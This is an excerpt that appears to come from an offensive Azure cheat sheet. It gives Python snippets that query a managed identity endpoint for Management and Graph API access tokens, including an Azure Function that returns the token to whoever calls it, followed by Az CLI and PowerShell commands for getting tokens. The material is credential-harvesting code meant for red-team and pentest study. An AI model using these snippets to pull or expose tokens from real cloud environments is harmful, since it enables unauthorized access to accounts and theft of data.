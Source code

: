 ### Azure API via Python Version

```py
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```

or inside a Python Function:

```py
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.')
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
    cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = os.popen(cmd).read()
    return func.HttpResponse(val, status_code=200)
```


### Get Tokens

:warning: The lifetime of a Primary Refresh Token is 14 days!

```powershell
# az cli - get tokens 
az account get-access-token 
az account get-access-token --resource-type aad-graph
# or Az
(Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
# or from a managed identity using IDENTITY_HEADER and IDENTITY_ENDPOINT
```

### Use Tokens

> Tokens contain all the claims including that for MFA and Conditional Access
